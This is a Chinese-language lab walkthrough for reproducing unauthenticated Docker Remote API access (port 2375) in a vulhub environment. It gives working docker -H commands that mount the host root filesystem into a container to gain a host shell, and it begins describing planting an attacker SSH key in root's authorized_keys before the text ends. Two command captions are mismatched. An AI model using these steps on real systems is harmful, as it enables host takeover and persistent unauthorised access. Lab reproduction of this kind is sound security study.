 存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以脱离容器拿到宿主机权限。

更多 docker 的介绍请移步：https://www.runoob.com/docker/docker-tutorial.html

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中的项目来搭建复现环境

Vulhub 漏洞环境搭建教程参考：

https://www.fujieace.com/penetration-test/vulhub.html

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuRw4xackUWr6Yyw9x6ibGk53Twopy0da4ycyKrCicn2ibITULVYKwO4lBw/640?wx_fmt=jpeg)

#### 漏洞检测

先用 nmap 扫描查看端口开放情况。2375 为 docker 端口

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktu4poqOMJ4HT1oDRqYPhticDiaeyXJ6OFC4fX7NlhTIsxLlfZQPQych8Kw/640?wx_fmt=jpeg)

通过命令连接：

docker -H tcp://192.168.168.131:2375 version

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuia3962aEibuMvpq4uQgzloul2dhM03EbNGggHpMtibQ7KhkpNMZwj61yg/640?wx_fmt=jpeg)

或者 url 访问：http://192.168.168.131:2375/version

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuO1g0El6QkKk7p5iaqPlqLNaQjcULMlDERdMQ52Iz4mAhbIiavkibvsl0w/640?wx_fmt=jpeg)

可以看到 docker 版本等基本信息，说明漏洞存在。

#### 漏洞利用

列出所有镜像

```
docker -H tcp://192.168.168.131:2375 ps -a
```

列出所有容器

```
docker -H tcp://192.168.168.131:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

1、写入 ssh 公钥

运行一个新容器，并且将该宿主机的根目录挂在到容器的 / mnt 目录下

docker -H tcp://192.168.168.131:2375 run -it -v /:/mnt nginx:latest /bin/bash

启动之后就会获得该容器宿主机的 shell:

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuIuibJSvOugZJYibtAlibFka0m5sLw4Eq7icf4PFico70Ur51RJ93lheVk9g/640?wx_fmt=jpeg)

之后将攻击者的 ssh 公钥~/.ssh/id\_rsa.pub 的内容写到入宿主机的 / root/.ssh/authorized\_keys 文件中
